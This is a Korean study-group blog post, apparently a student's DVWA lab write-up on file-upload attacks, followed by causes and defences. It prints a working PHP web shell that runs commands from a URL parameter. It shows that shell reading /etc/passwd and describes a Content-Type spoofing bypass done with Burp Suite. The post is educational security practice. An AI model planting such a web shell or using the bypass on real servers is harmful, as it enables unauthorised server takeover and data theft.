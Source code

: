# Groot Security Study - Week 5

## DVWA의 내용들에 대해 직접 실습하고 그에 대한 보고서를 정리하는 블로그

### 개요
  * 5주차는 File Upload 공격에 관한 내용이다. File upload는 공격자가 악성 파일을 시스템에 업로드하여 시스템의 권한을 획득하거나 서버를 변조시키는 등의 방식으로 웹 서버를 장악하는 공격 방법이다.
  * File upload는 주로 웹쉘을 서버에 업로드 하는 방식으로 이루어지는데, 웹쉘이란 웹 서비스를 구동하기 위한 웹서버 환경에서 지원 가능한 웹 애플리케이션 언어를 기반으로 동작되는 파일을 의미하며 PHP, JSP등의 스크립트 언어를 이용하여 웹쉘을 제작할 수 있다.<br/>
  * 실습은 DVWA를 이용 하였으며, 실습 환경은 작성자의 가상머신에서 이루어졌다(ARM / VMWare Fusion - Kali Linux)<br/>

### 본론
**실습 과정**
  1. Low
      * 우선 시스템의 동작 방식을 알기 위해 시스템의 원래 의도대로 공격자의 local에서 파일을 골라 업로드 해 보았다. 업로드에 쓰인 test.txt파일은 단순히 test라는 문자열이 적힌 텍스트파일이다.
      <center><img src="/assets/230623/230623_screenshot_1.png" width="50%" height="50%" alt="Screenshot_of_file_upload_result"></center><br/>
      * test.txt파일을 업로드 하면 위의 사진과 같이 해당 파일이 업로드된 서버 내부 디렉토리가 반환된다. 해당 위치를 참조하여 test.txt파일에 연결하면 아래 사진과 같이 test.txt의 내용이 출력되는 것을 알 수 있다. 서버 역할을 하는 컴퓨터 내부 문서를 웹페이지라고 하는 것을 생각해보면 대상 시스템에 'test'라는 텍스트가 보이는 웹 페이지를 업로드 한 것으로 생각할 수 있다.
      <center><img src="/assets/230623/230623_screenshot_2.png" width="50%" height="50%" alt="Screenshot_of_uploaded_file"></center><br/>
      * 이에 업로드 할 파일을 일반적인 텍스트파일이 아닌 스크립트 언어로 제작된 웹쉘로 선택한다면, 다른 부가적인 동작을 유도할 수 있을 것으로 생각된다. 그래서 다음과 같은 코드의 웹쉘을 하나 만들었다.     
      ```php
        <?php
          $cmd = $_GET['command'];
          if(isset($cmd))
          system($cmd);
        ?>
      ```
      * 해당 웹쉘은 PHP를 기반으로 하고 있으며, 'command'를 인자로 전달받아 'cmd'라는 변수를 생성하고, 'cmd'의 값이 설정되어 있다면(isset()으로 확인) system()함수를 이용하여 CL(Command Line)명령어로 전달하여 실행시킨다. 이에 기반해 해당 PHP파일을 업로드 한 뒤, command의 값을 'cat /etc/passwd'로 하여 해당 경로에 접속하면 다음과 같이 CLI에서 'cat /etc/passwd'명령을 실행한 것과 같은 결과를 얻을 수 있다.
      <center><img src="/assets/230623/230623_screenshot_4.png" width="50%" height="50%" alt="Screenshot_of_webshell_upload_result"></center><br/>

  2. Medium
      * 우선 해당 난이도의 시스템 소스코드를 확인해 보면 다음과 같다. 해당 코드를 확인해보면, 업로드한 파일의 형식을 확인하여 jpeg 또는 png파일만 업로드를 허용하고 있다.
      ```php
      <?php
      if( isset( $_POST[ 'Upload' ] ) ) {
        // Where are we going to be writing to?
        $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
        $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

        // File information
        $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
        $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
        $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

        // Is it an image?
        if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) && ( $uploaded_size < 100000 ) ) {

          // Can we move the file to the upload folder?
          if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
          }
          else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
          }
        }
        else {
          // Invalid file
          echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
        }
      }
      ?> 
      ```
      * 따라서 burpsuite를 이용하여 시스템에 전달되는 파일의 형식을 확인해보면 php형식의 파일이 전달된다고 쓰인 부분이 있는데, 해당 위치의 값을 시스템에서 허가하고 있는 형식인 image/jpeg으로 변경해주고 forward로 전달해 주었다.
      <center><img src="/assets/230623/230623_screenshot_6.png" width="50%" height="50%" alt="Screenshot_of_burpesuite_intercept"></center><br/>
      * 그 결과, low에서처럼 'cat /etc/passwd'을 인자로 설정하면 해당 결과를 확인할 수 있다.
      <center><img src="/assets/230623/230623_screenshot_4.png" width="50%" height="50%" alt="Screenshot_of_webshell_upload_result"></center><br/>

### 결론
  1. **원인 분석**
      * Low : 시스템의 소스코드를 확인해 보면 다음과 같다. 해당 소스코드를 확인해보면, 단순히 지정된 위치에 파일을 업로드하고, 업로드가 정상적으로 수행되었는지 여부를 반환한다. 해당 과정에서 스크립트 언어 형식을 차단한다거나 등의 시큐어 코딩이 전혀 되어있지 않아 문제가 되는것으로 보이고, 웹쉘이 정상적으로 동작하는 것을 보면 실행 권한 또한 막혀있지 않은것 같다.
      ```php
      <?php
      if( isset( $_POST[ 'Upload' ] ) ) {
        // Where are we going to be writing to?
        $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
        $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
          // No
          echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
          // Yes!
          echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
      }
      ?> 
      ```
      * Medium : 위의 실습과정에서 확인한 소스코드를 보면, 업로드된 파일의 형식을 확인하고는 있지만 요청이 인터셉트 되어 이미지 파일인것 처럼 전달되면 취약한 웹쉘의 업로드를 막을 수 없다. 업로드 된 파일의 형식을 확인하는 것이 아닌 다른 공격 차단 방법이 필요해 보인다.

  2. **예상 대응 방안**
      * 다음은 impossible 난이도의 소스코드이다. 해당 소스코드를 확인해보면, 이미지 파일 형식의 확장자로 업로드 되었을 경우, 해당 파일을 다시 인코딩하여 시스템에서 허가한 형식의 파일(이미지)만을 업로드 할 수 있게 제한함과 동시에 해당 이미지파일의 변조를 방지한다.
      ```php
      <?php
      if( isset( $_POST[ 'Upload' ] ) ) {

        // Check Anti-CSRF token
        checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

        // File information
        $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
        $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
        $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
        $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
        $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

        // Where are we going to be writing to?
        $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
        //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
        $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
        $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
        $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

        // Is it an image?
        if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) && ( $uploaded_size < 100000 ) && ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) && getimagesize( $uploaded_tmp ) ) {

          // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
          if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
          }
          else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
          }
          imagedestroy( $img );

          // Can we move the file to the web root from the temp folder?
          if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
            // Yes!
            echo "<pre><a href='{$target_path}{$target_file}'>{$target_file}</a> succesfully uploaded!</pre>";
          }
          else {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
          }

          // Delete any temp files
          if( file_exists( $temp_file ) )
            unlink( $temp_file );
        }
        else {
          // Invalid file
          echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
        }
      }

      // Generate Anti-CSRF token
      generateSessionToken();
      ?> 
      ```
      * 위와 같은 파일 자체를 제한하는 방식 뿐 아니라, 만약 스크립트 언어로 작성된 파일의 업로드가 필요한 경우라면 업로드 대상 디렉터리에 파일의 실행권한을 주지 않도록 설정하기(chmod), 업로드 서버와 메인 동작 서버를 분리하기, 파일 이름을 난수화 하여 공격자가 본인의 웹쉘을 찾지 못하게 하기 등의 방법을 사용할 수 있을것이다.

### 마치며
  * 종강시즌이라 과제 & 시험때문에 지난 스터디의 피드백이나 추가적으로 공부하여 기록할 내용을 반영하지 못했거니와 2주정도 스터디에 참여하지 못하였는데, 이제 종강해서 한숨 돌렸으니 놓친 주차 학습등을 슬슬 따라가보려고 한다.(물론 방학이라고 할일이 없는건 아니지만 그래도 학기 중 보다는 덜 하지 않을까 싶다.)
  * 그리고 이번 주차부터는 스터디 이후 발표에 직접 발표는 안하더라도 참여해서 청강해보는거도 좋을 것 같다. 지난번에 보니 다들 영어로 진행하시는거 같던데 알아들을 수 있겠지...?

### 참조
  * [OWASP - File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
  * [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)